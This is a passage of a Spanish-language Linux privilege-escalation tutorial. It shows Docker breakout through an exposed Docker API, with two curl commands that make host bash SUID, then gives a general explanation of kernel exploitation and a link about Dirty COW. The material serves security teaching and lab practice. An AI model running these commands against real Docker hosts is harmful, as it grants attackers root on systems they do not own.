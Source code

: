 ```bash
{% raw %}
curl -X POST -H "Content-Type: application/json" http://172.17.0.1:2375/containers/ccf0aa17b28c8a37da810e00b2614e658f81e33a7287069a7b8787a42951e18e/exec -d '{ "AttachStdin": false, "AttachStdout": true, "AttachStderr": true, "Cmd": ["/bin/sh", "-c", "chmod u+s /mnt/bin/bash"]}'
{% endraw %}
```

![Untitled](/assets/Privesc/Docker-Breakout/Untitled 20.png)

Esto proporcionará un ID el cual se debe usar para ejecutar el comando:

```bash
{% raw %}
curl -X POST -H "Content-Type: application/json" http://172.17.0.1:2375/exec/7e0005e8f679e9bab801b833333b47827034c33c6af04833dafb85de0a0b1b8a/start -d '{}'
{% endraw %}
```

![Untitled](/assets/Privesc/Docker-Breakout/Untitled 21.png)

Nota: Si se quiere ver el output de un comando, por ejemplo el de un cat, se debe ingresar el parámetro “**`--output -`**” al final del comando curl.

# Explotación del Kernel

    
El **kernel** es la parte central del sistema operativo Linux, que se encarga de administrar los recursos del sistema, como la memoria, los procesos, los archivos y los dispositivos. Debido a su papel crítico en el sistema, cualquier vulnerabilidad en el kernel puede tener graves consecuencias para la seguridad del sistema.
    
En versiones antiguas del kernel de Linux, se han descubierto vulnerabilidades que pueden ser explotadas para permitir a los atacantes obtener acceso de superusuario (**root**) en el sistema.
    
La elevación de privilegios se refiere a la técnica utilizada por los atacantes para obtener permisos elevados en el sistema, como superusuario (**root**), cuando solo tienen permisos limitados. Por ejemplo, un usuario con permisos limitados en el sistema podría utilizar una vulnerabilidad en el kernel para obtener acceso de superusuario y, posteriormente, comprometer el sistema.
    
Las vulnerabilidades del kernel pueden ser explotadas de varias maneras. Por ejemplo, un atacante podría aprovechar una vulnerabilidad en un controlador de dispositivo para obtener acceso al kernel y realizar operaciones maliciosas. Otra forma común en que se explotan las vulnerabilidades del kernel es mediante el uso de técnicas de desbordamiento de búfer, que permiten a los atacantes escribir código malicioso en áreas de memoria reservadas para el kernel.
    
Para mitigar el riesgo de vulnerabilidades del kernel, es importante mantener actualizado el sistema operativo y aplicar parches de seguridad tan pronto como estén disponibles.


### Más info:

- Links
    
    BlogUbuntu - (”[https://blogubuntu.com/que-es-dirty-cow](https://blogubuntu.com/que-es-dirty-cow)”)
    